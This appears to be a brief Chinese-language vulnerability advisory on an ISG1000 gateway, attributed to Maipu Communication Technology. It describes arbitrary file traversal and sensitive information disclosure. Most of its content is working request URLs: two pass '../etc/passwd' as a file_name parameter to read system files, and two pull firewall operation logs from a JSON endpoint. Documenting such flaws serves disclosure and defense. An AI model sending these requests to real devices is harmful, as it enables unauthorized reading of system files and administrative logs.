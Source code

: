 ##cve编号：无
##漏洞名称：任意文件遍历&敏感信息泄漏
##漏洞类型：
##影响版本：
- ISG1000 有2个版本,title伪迈普通信技术有限公司存在漏洞
##利用脚本：
- 无

##漏洞细节：
参考url：
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
/webui/?g=sys_dia_data_check&file_name=../etc/passwd
/webui/?g=log_fw_operate_jsondata&date=&end_date=&content=&level_name=&admin=&admin_fuzzy=&log_ip=&page=1&rows=20
/webui/?g=log_fw_operate_jsondata&date=&end_date=&content=&level_name=&admin=&admin_fuzzy=&log_ip=&page=1&rows=20
##reference：
